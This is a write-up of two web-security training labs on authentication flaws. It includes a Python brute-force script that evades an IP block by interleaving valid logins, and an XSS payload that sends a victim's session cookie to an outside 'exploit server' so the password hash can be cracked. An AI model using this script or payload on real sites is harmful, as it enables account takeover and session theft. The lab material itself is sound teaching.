


<div align='center'>

# **Authentication vulnerabilities**

</div>

### **Lab:** Broken brute-force protection, IP block

**Goal:** Login as user carlos

**The lab provide:** A credential wiener:peter, a password wordlist [password](./passwordlist.txt)

**Solution:** 

1.  We see that when we login incorrectly 3 times in a row, our IP address is temporarily blocked. However, we can bypass this restriction by login 2 times then login correctly with credential wiener:peter.


2.  I use this [python script](./passLab4.py) to brute force for the password and solve the lab

The check_login function will login with username and password. It returns true if the login is successful with username is not weiner

```python
def check_login(session, domain, username, password):
    credential = {'username': username, 'password': password}
    r = session.post(domain + '/login', data=credential)
    if (username != 'wiener'):
        print('Trying Password: ', password)
    if ('Incorrect password' not in r.text and username != 'wiener'):
        return True
    else:
        return False
```

The brute function will login two times with password in the wordlist and then login with credential wiener:peter. If the password is right, the function will print that password 

```python
def brute(session, domain, username, wordlist):
    with open(wordlist, 'r') as f:
        count = 0
        for password in f.readlines():
            password = password.strip()
            count += 1
            if (count % 3 != 0):
                if (check_login(session, domain, username, password)):
                    print('Found Password: ', password)
                    break
            else:
                count = 1
                check_login(session, domain, 'wiener', 'peter')
                if (check_login(session, domain, username, password)):
                    print('Found Password: ', password)
                    break
```

The verify function will verify whether the lab is solved is not

```python
def verify(session, domain):
    r = session.get(domain)
    if ('Solved' in r.text):
        print('Solved. Visit ' + domain + ' to see the solution.')
    else:
        print('Not solved yet.')
```


**Solution script:** [passLab4.py](./passLab4.py)

### **Lab:** Offline password cracking

**Goal:** Login as user carlos

**The lab provide:** A credential wiener:peter, a password wordlist [password](./passwordlist.txt)

**Solution:** 
1.    We see that this website is vulnerable to XSS in the comment section when we comment as ``<b>XSS</b>``


2.  Moreover, when we login as wiener:peter, we get a stay-logged-in cookie which value is base64 encoded. 


The cookie is constructed as: username + ':' + md5 hash of password


3.  With the XSS vulnerbility we discovered before, we use this payload to steal carlos's cookie. When carlos login and visit the comment section, he will send the GET request to the server which contain his stay-logged-in cookie. The access log will record it in the server so we can read his cookie

```javascript
<script>document.location="your exploit server"+document.cookie</script>
```


4.  When we go to the access log of the exploit server, we see a request came from carlos containing his cookie



5.  Decode the cookie using Base64, we get:

```
carlos:26323c16d5f4dabff3bb136f2460a943
```

6.  Using [Crack Station](https://crackstation.net/), we get the password `onceuponatime`

 

7.  Login as carlos and delete his account to solve to the lab



**Solution script:** [otherLab2.py](./otherLab2.py)
